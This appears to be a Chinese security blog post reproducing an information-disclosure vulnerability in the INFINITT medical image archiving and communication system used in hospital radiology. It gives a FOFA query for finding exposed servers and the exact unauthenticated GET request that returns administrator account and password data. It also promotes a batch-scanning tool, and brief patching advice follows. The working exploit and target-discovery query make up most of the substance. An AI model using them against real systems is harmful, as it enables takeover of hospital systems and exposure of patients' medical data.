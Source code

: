 #  【漏洞复现】英飞达医学影像存档与通信系统webservices接口存在信息泄露漏洞   
原创 清风  白帽攻防   2024-11-18 01:20  
  
## 免责声明：请勿使用本文中提到的技术进行非法测试或行为。使用本文中提供的信息或工具所造成的任何后果和损失由使用者自行承担，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
简介  
  
英飞达医学影像存档与通信系统主要用于医院影像科室，负责将日常生成的各种医学影像（如核磁共振、CT、超声、X光、红外、显微镜等设备的图像）通过不同接口（如模拟信号、DICOM协议、网络传输）进行数字化保存。这些影像数据被海量存储，并能在授权下快速调取使用，同时提供一些辅助诊断和管理功能。该系统在不同影像设备之间传输数据和组织存储数据方面发挥着重要作用。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yu6trpdUX0dakQkvYTcT4pr9bd9LAZXf7uo75HCmHZyuKiaMdDTkQCuZf2ehJAWyMoX8yUkOb8BO5MILwYPKqsA/640?wx_fmt=png&from=appmsg "")  
  
漏洞描述  
英飞达医学影像存档与通信系统在/webservices/WebUserLogin.asmx/接口处存在信息泄露漏洞，攻击者无需身份验证即可  
利用该漏洞获取系统后台管理员的账户密码信息，进而登录后台，导致系统安全性严重受损。  
  
fofa语法```
"INFINITT" && (icon_hash="1474455751" || icon_hash="702238928")
```  
漏洞复现```
GET /webservices/WebUserLogin.asmx/GetUserInfoByUserID?userID=admin HTTP/1.1
Host: IP
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yu6trpdUX0dakQkvYTcT4pr9bd9LAZXfzTGSyib6iaXmToYhh1oDOCXWK6UExxSbFI8C2aNt48VOJZQtxq09gGXA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yu6trpdUX0dakQkvYTcT4pr9bd9LAZXfufCRwgzVRRG0MDdXRztFwicfdHxpn3V85bAhFx9qibUBE9QNKvCaIdSw/640?wx_fmt=png&from=appmsg "")  
  
批量检测（批量检测POC工具请在公众号知识星球获取）：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yu6trpdUX0dakQkvYTcT4pr9bd9LAZXfGF0RXrCPv4QfCtlnb8XpyLGX37tuRZknUrNYXBVFWu6RzTW1iamW9uA/640?wx_fmt=png&from=appmsg "")  
修复建议  
  
  
  
1、关闭互联网暴露面或接口设置访问权限  
  
2、及时更新补丁或升级至安全版本  
  
  
  
  
网安交流群  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/yu6trpdUX0efFOzibVic3qjn100tFgpUIh7ib8g9cKajewKFM5kXP350q21SCLvlgO6yx1tlia8VYxI4j3cv57FqFg/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
